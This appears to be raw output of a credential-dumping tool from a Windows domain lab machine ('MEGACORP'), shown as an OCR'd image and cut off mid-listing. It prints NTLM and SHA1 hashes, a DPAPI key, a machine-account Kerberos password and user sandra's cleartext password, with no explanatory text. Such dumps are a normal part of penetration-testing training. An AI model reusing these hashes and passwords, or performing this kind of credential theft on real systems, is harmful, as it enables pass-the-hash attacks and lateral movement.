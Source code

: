 ```
         * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
        tspkg :
        wdigest :
         * Username : SHIELD$
         * Domain   : MEGACORP
         * Password : (null)
        kerberos :
         * Username : shield$
         * Domain   : MEGACORP.LOCAL
         * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
        ssp :
        credman :

Authentication Id : 0 ; 36467 (00000000:00008e73)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 9/7/2021 5:14:07 PM
SID               : 
        msv :
         [00000003] Primary
         * Username : SHIELD$
         * Domain   : MEGACORP
         * NTLM     : 9d4feee71a4f411bf92a86b523d64437
         * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 308037 (00000000:0004b345)
Session           : Interactive from 1
User Name         : sandra
Domain            : MEGACORP
Logon Server      : PATHFINDER
Logon Time        : 9/7/2021 5:15:25 PM
SID               : S-1-5-21-1035856440-4137329016-3276773158-1105
        msv :
         [00000003] Primary
         * Username : sandra
         * Domain   : MEGACORP
         * NTLM     : 29ab86c5c4d2aab957763e5c1720486d
         * SHA1     : 8bd0ccc2a23892a74dfbbbb57f0faa9721562a38
         * DPAPI    : f4c73b3f07c4f309ebf086644254bcbc
        tspkg :
        wdigest :
         * Username : sandra
         * Domain   : MEGACORP
         * Password : (null)
        kerberos :
         * Username : sandra
         * Domain   : MEGACORP.LOCAL
         * Password : Password1234!
        ssp :
        credman :

Authentication Id : 0 ; 167946 (00000000:0002900a)
Session           : Service from 0
User Name         : wordpress
Domain            : IIS APPPOOL
```